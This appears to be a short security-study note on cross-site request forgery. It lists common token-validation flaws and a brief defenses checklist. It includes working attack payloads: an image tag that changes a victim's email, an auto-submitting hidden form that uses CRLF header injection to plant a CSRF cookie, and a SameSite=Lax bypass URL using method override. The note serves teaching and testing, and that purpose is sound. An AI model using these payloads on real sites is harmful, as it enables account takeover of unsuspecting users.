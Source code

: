 # 🟩 Cross-site request forgery (CSRF)

Allows an attacker to induce users to perform actions that they do not intend to perform

### <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:orange;">**Reflected XSS**</mark>

Attacker will place the malicious HTML onto a web site that they control

### <mark style="color:orange;">GET method</mark>

**Example**

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

## <mark style="color:red;">Common CSRF vulnerabilities</mark>

* Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
* Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
* Some applications do not validate that the token belongs to the same session as the user who is making the request.
* Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions.\
  <mark style="color:green;">**Example**</mark>

```html
<html>
  <body>
    <form action="https://vul-site.com/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;yahoo&#46;com" />
      <input type="hidden" name="csrf" value="jyLqs10iSdsMQz1S5jqucMF55ZyDRyQL" />
      <input type="submit" value="Submit request" />
    </form>
     <img src="http://vul-site.com/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"> 
  </body>
</html>
```

* Some applications do not maintain any server-side record of tokens that have been issued.
* Cookie **SasmeSite=Lax** bypass via method override. Change **POST** method to **Get** with **"\_method"** parameter. Example\
  &#x20;`/change-email?email=attacker@attack.net&_method=POST`

## <mark style="color:red;">Defenses</mark>

* [ ] CSRF tokens
* [ ] HTTP cookie header (csrf-key)
* [ ] Captcha
* [ ] HTTP Referer header
